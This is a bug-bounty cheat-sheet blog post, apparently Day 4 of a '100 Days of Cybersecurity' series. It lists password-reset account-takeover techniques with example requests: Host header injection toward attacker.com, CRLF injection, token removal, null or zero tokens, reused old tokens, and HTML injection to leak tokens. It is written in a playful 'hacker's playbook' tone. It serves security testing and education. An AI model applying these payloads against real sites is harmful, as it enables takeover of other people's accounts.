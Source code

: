```yaml
---
title: <img width="50" height="50" alt="front-page port 80-shoopyu" src="https://github.com/thelocalh0st/thelocalh0st.github.io/assets/95465072/77d37890-df5d-43c6-8963-353f8cb4ebbd"> Password Reset Vulnerabilities  
date: 2023-12-12 07:00:02 +730
categories: [Resources, bugbounty]
tags: [bugbounty, password-reset-vuln,100-days-of-cybersecurity] # TAG names should always be lowercase


---
```



<h1 style="color: cyan; text-align: center">100 Day's Of Cybersecurity - Day 4</h1>
<br><br>
![th-364396762 (1)](https://github.com/thelocalh0st/thelocalh0st.github.io/assets/95465072/6609b668-6523-4436-b31b-e1e405cf670b)

<br>
Hey, hacking enthusiasts! Ready to uncover some mind-blowing tricks? Dive into these HubSpot Full Account Takeover methods and master the hacker's playbook!

## 📧 Using Your Token on Victims' Email



```
POST /reset
email=victim@gmail.com&token=$YOUR-TOKEN$
```

Imagine slipping into someone's email fortress with a cleverly placed token. 🕵️‍♂️

## 🌐 Host Header Injection


```
POST /reset
Host: attacker.com
email=victim@gmail.com`
```

Messing with the host header to sow confusion. Crafty, right?

## 🎭 HTML Injection in Host Header


```
POST /reset
Host: attacker">.com
email=victim@gmail.com
```

Why settle for ordinary when you can inject style into your hacks? 😉

## 🕵️ Leakage of Password Reset in Referer Header


`Referrer: https://website.com/reset?token=1234` 

Spotting hidden treasures in the Referer Header - a classic move in the hacker's handbook.

## 🎭 Using Companies Email


```
While inviting users into your account/organization, you can also try inviting company emails and add a 
new field "password": "example123". or "pass": "example123" in the request. you may end up resetting a user password

Company emails can be found on target's GitHub Repos members or you can check on http://hunter.io. some users
have a feature to set a password for invited emails, so here we can try adding a pass parameter.

If successful, we can use those credentials to login into the account, SSO integrations, support panels,
etc
```
Mixing business with pleasure by exploiting the power of company emails. 🏢💻

## 🚪 CRLF in URL


`/resetPassword?0a%0dHost:atracker.tld` 

Breaking into the reset realm with CRLF magic. 🪄

## 📬 HTML Injection in Email



`HTML injection in email via parameters, cookie, etc > inject image > leak the  token` 

Crafting emails that are not just messages but gateways to breach security. 💻🔓

## 🚮 Remove Token



`/reset?eamil=victims@gmail.com&token=` 

Playing hide and seek with tokens - remove, replace, and conquer. 🕵️‍♀️🎭

## 🔄 Change it to 0000



`/reset?eamil=victims@gmail.com&token=0000000000` 

Transforming tokens like a digital alchemist. ✨

## 🚫 Use Null Value



`/reset?eamil=victims@gmail.com&token=Null/nil` 

Because sometimes, nothing is more powerful than Null. 🧙‍♂️

## 🎲 Try an Array of Old Tokens



`/reset?eamil=victims@gmail.com&token=[oldtoken1,oldtoken2]` 

Rolling the dice with a repertoire of old tokens. 🎲

## 🕵️ SQLi Bypass


`try sqli bypass and wildcard or, %, *` 

In the quest for knowledge, SQLi becomes the secret language. 🤫📜

## 🔄 Request Method / Content Type



`change request method (get, put, post etc) and/or content type (xml<>json)` 

Mastering the art of disguise - because not all requests are created equal. 🎭

## 🔄 Response Manipulation

`Replace bad response and replace with good one` 

Turning the tables by manipulating responses. It's like playing chess with code. ♟️

## 🚀 Massive Token



`/reset?eamil=victims@gmail.com&token=1000000 long string` 

Unleashing the power of the colossal token - because size does matter in the hacking world. 🚀

## 🔗 Crossdomain Token Usage



`If a program has multiple domains using the same underlying reset mechanism...` 

Navigating through domains like a digital acrobat - because sometimes, tokens transcend boundaries. 🌐

## Final Notes 📒 

🔍 Leaking Reset Token in Response Body

 🔄 Change 1 Char at the Begin/End to See if the Token is Evaluated

📬 Use Unicode Char Jutsu to Spoof Email Address

⏱️ Look for Race Conditions

 🔄 Try to Register the Same Mail with Different TLD (.eu, .net, etc)


----------

Hope you enjoy this adventure into the world of bug bounty hunting! Happy hacking!

![](https://media.giphy.com/media/DAtJCG1t3im1G/giphy.gif)
